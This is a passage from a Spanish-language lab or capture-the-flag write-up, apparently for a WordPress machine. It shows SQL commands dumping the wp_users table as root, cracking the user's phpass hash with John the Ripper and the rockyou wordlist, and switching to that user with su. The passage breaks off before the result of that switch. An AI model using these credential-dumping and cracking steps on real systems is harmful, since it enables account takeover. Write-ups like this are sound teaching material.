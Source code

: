 Explicación: ganamos acceso a la base de datos como root. Por lo que trataremos de extraer las credenciales de los usuarios registrados

Acción: mostramos la secuencia de comandos y el resultado final

```bash
show databases;
use wordpress;
describe wp_users;
select * from wp_users;
```

Resultado:

```bash
+----+------------+------------------------------------+---------------+--------------------------+----------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email               | user_url | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+--------------------------+----------+---------------------+---------------------+-------------+--------------+
|  1 | hagrid98   | $P$BYdTic1NGSb8hJbpVEMiJaAiNJDHtc. | wp-admin      | hagrid98@localhost.local |          | 2021-03-31 14:21:02 |                     |           0 | WP-Admin     |
+----+------------+------------------------------------+---------------+--------------------------+----------+---------------------+---------------------+-------------+--------------+
1 row in set (0.000 sec)
```

Explicación: encontramos las siguientes credenciales: `hagrid98:$P$BYdTic1NGSb8hJbpVEMiJaAiNJDHtc.`; vemos que esta hasheada por lo que trataremos de descifrarla con [Jhon The Ripper](../../Herramientas/Fuerza%20Bruta/Jhon%20The%20Ripper.md)

Acción:

```bash
john -w:/usr/share/wordlists/rockyou.txt data
```

Resultado:

```bash
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (?)     
1g 0:00:00:00 DONE (2025-09-25 13:36) 7.142g/s 10971p/s 10971c/s 10971C/s 753951..mexico1
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed. 
```

Explicación: obtuvimos las credenciales `hagrid98:password123`


Acción:

```bash
su hagrid98
```

Resultado:
